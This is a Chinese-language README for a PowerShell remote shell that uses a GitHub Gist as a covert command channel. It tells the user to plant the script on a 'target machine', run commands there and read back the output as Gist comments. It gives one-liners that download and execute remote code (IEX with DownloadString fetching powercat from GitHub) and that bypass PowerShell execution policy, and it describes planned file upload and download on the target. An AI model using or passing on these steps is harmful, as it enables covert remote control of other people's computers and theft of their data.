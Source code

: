 ###Powershell Github Shell
	Author:zshell
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

####使用方法：<br>
##### 1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.<br>
##### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：<br>
###### 为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e <br>
	Command:"time /T"
	ReadFile:"c:/windows/temp/1.txt"
	WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
	Powershell:"Get-Process | Out-String"
	Command:"whoami"
其中<br>
###### Command后是想要执行的cmd命令，功能已测试OK<br>
###### ReadFile是上传目标机器上的文件到Github，暂未实现<br>
###### WriteFile下载文件到目标机器，暂未实现<br>
###### Powershell后是可以执行的Powershell指令，暂未实现<br>

##### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名<br>
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1<br>
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位<br>

##### 4, 使powershell在目标机器上执行
##### Powershell执行方法<br>
一句话远程加载 <br>
```Powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
一句话本地加载<br>
```Powershell
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行<br>
```Powershell
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
##### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
